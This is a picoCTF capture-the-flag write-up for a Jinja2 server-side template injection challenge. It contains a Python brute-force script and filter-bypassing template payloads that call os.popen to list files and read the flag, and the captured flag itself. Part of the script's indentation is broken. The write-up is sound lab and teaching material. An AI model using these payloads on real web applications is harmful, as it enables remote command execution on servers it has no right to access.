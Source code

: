 curl -I http://shape-facility.picoctf.net:59746/announce

<img width="570" height="88" alt="Screenshot 2025-08-17 at 10 25 59 PM" src="https://github.com/user-attachments/assets/7a865d9f-eefc-4a9d-bcd4-20a8b5ff69b0" />
```
# Script to craft payload


import requests
import html
import re

url = "ctf-url"
#This payload returns a list of all subclasses of the base Python #object class.
payload = "{{\"\".__class__.__base__.__subclasses__()}}"

#We send the payload to the vulnerable endpoint via a POST request.
r = requests.post(url, data={"content":payload})

#If the request is successful, we decode the HTML content and extract class names using regex.

if r.status_code == 200:
    html_content = r.text
    content_decoded = html.unescape(html_content)
    class_names = re.findall(r"<class '([^']+)'>", content_decoded)
    print(len(class_names))

#For each subclass index, we craft a new payload to try to access __globals__['sys'] and run a shell command: cat flag.
    for i in range(0, len(class_names)):
        new_paload = "{{\"\".__class__.__base__.__subclasses__()["+ str(i) + "].__init__.__globals__['sys'].modules['os'].popen('cat flag').read()}}"
        #We send the new payload to the server.
         nr = requests.post(url, data={"content":new_paload})
         #If the response contains the flag, we print the result and stop the script.
        if nr.status_code == 200:
            print(nr.text)
            print("*"*20)
            #This is how we find the first subclass that gives us working access to Python internals, in this case: index 80.
            print("class name: ", class_names[i], "index: ", i)
            exit(0)

```
try to print all of directories

```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()}}
```

<img width="1011" height="738" alt="Screenshot 2025-08-17 at 10 38 24 PM" src="https://github.com/user-attachments/assets/fa27a38b-ab5c-4f96-94c6-a6d130ac1711" />

attempt to open flag

```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
```

picoCTF{sst1_f1lt3r_byp4ss_060a5eb0}




